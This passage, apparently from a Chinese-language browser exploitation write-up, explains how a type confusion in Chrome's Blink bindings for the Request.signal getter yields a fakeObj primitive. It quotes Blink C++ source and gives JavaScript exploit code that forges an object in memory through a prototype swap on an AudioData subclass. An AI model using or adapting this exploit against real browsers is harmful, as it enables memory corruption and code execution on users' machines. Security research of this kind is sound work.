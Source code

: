 ```js
    doubleArr[2] = i32tof(0x8002249, 0x1000);
    doubleArr[3] = 1.1;
```

### fakeObj 与 signal

回顾一下，类型混淆能够让我们去非法的读取数据，但它实际上是通过 `getter` 的返回值完成的，倘若某个 `getter` 能够返回对象，那么我们就能够通过类型混淆来修改返回的结果了：

```c++
void SignalAttributeGetCallback(
    const v8::FunctionCallbackInfo<v8::Value>& info) {
  RUNTIME_CALL_TIMER_SCOPE_DISABLED_BY_DEFAULT(info.GetIsolate(),
                                               "Blink_Request_signal_Getter");
  BLINK_BINDINGS_TRACE_EVENT("Request.signal.get");

  v8::Local<v8::Object> v8_receiver = info.This();
  Request* blink_receiver = V8Request::ToWrappableUnsafe(v8_receiver);
  auto&& return_value = blink_receiver->signal();
  bindings::V8SetReturnValue(info, return_value, blink_receiver);
}
```

`blink_receiver->signal` 返回一个 `auto` 类型的对象，通过控制其返回目标的属性，我们似乎有办法令其主动返回一个我们期望的对象。

根据声明我们能够发现：

```c++
AbortSignal* signal() const { return signal_; }
```

其返回对象是一个 `AbortSignal` 指针，它也是一个 `ScriptWrappable` 对象，而通过 `V8SetReturnValue` 将会返回 `main_world_wrapper_` 字段中的 V8 对象地址，而该对象的类型取决于其拥有的 `map` 。

那么我们的目标就很明确了，首先声明一个 `Request` 对象用以获取 `signal` ，然后找到一个与 `signal_` 有相同偏移却能够由我们随意控制的对象，将其设定为伪造好的内存结构，然后再返回出来即可。

![[fakeObj.png]]

```js
    class SubAudioData extends AudioData {
      constructor(addr) {
        let input = audioDataInput;
        input.timestamp = addr;
        super(input);
      }
        
      getFakeObj() {
        return super.signal;
      }
    }
    function createFakeObj(i, addr) {
      req['a' + i] = 1;
      if (i < loopCount) {
        SubAudioData.prototype.__proto__ = {};
      } else {
        SubAudioData.prototype.__proto__ = req;
      }
      req.signal;
      return subAudio.getFakeObj();
    }
    
    var subAudio = new SubAudioData(imgAddr + 0x8);
    for (let i = 0; i < loopCount; i++) {
      createFakeObj(i);
    }
    var fakeDblArr = createFakeObj(loopCount);
```
